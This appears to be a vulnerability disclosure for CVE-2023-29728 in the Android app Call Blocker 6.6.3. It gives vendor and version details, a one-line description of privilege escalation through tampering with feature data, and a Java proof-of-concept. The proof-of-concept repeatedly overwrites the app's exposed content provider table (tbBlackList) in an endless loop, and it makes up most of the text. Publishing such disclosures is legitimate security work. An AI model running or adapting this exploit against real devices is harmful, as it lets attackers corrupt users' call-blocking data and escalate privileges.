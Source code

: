 ## Escalation of Privileges exists in Call Blocker（CVE-2023-29728）

Vendor：Fiorenza Francesco(https://www.call-blocker.info/)

Affected product：Call Blocker(com.cuiet.blockCalls)

Version：6.6.3

Download link： https://play.google.com/store/apps/details?id=com.cuiet.blockCalls

Description of the vulnerability for use in the CVE：The Call Blocker application 6.6.3 for Android allows attackers to tamper with feature-related data, resulting in a severe elevation of privilege attack.



poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    while (true) {
        Uri uri = Uri.parse("content://com.cuiet.blockCalls.ContProvBlockCalls/tbBlackList");
        ContentValues contentValues = new ContentValues();
        contentValues.put("photo_uri","123456789");
        contentValues.put("numeroContatto","987654321");
        contentResolver.update(uri,contentValues,null,null);
    }
}
```



